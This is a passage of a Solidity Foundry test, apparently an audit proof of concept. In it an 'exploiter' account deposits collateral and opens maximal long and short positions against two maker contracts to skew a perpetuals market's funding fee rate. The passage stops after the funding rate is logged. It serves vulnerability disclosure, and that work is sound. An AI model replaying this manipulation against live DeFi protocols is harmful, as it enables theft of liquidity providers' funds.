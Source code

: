 ```solidity
        //mock the pyth price to be same as uniswap (set to ~$2000 in base class)
        pyth = IPyth(0xff1a0f4744e8582DF1aE09D5611b887B6a12925C);
        _mockPythPrice(2000,0);
    }


    function testFundingFeePOC() public {
       

        //deposit 5M collateral as margin for exploiter (also mints the amount)
        uint256 startQuote = 5000000*1e6;
       _deposit(marketId, exploiter, startQuote);
       console.log("Exploiter Quote balance at Start: %s\n", startQuote);

        //deposit to makers
        //initial HSBM maker deposit: 2000 base tokens ($4M)
       vm.startPrank(makerLp);
       deal(address(baseToken), makerLp, 2000*1e9, true);
       baseToken.approve(address(maker), type(uint256).max);
       maker.deposit(2000*1e9);

       //initial oracle maker deposit: $2M (1000 base tokens)
       deal(address(collateralToken), makerLp, 2000000*1e6, true); 
       collateralToken.approve(address(oracle_maker), type(uint256).max);
       oracle_maker.deposit(2000000*1e6);
       vm.stopPrank();

       //Also deposit collateral directly to SHBM to simulate some existing margin on the SHBM from previous activity
       _deposit(marketId, address(maker), 2000000*1e6);

       //Exploiter opens the maximum possible (-1000 base tokens) long on oracle maker
        vm.startPrank(exploiter);
        (int256 posBase, int256 openNotional) = clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(oracle_maker),
                isBaseToQuote: false,
                isExactInput: false,
                amount: 1000*1e18,
                oppositeAmountBound:type(uint256).max,
                deadline: block.timestamp,
                makerData: ""
            })
        );

        //Exploiter opens maximum possible short on the HSBM maker changing their position to short 1000 (2000-1000)
        (posBase,openNotional) = clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(maker),
                isBaseToQuote: true,
                isExactInput: true,
                amount: 2000 * 1e18,
                oppositeAmountBound:0,
                deadline: block.timestamp,
                makerData: ""
            })
        );
        console.log("Funding Fee Rate after short:");
        int256 ffeeRate = fundingFee.getCurrentFundingRate(marketId);
        console.logInt(ffeeRate);
```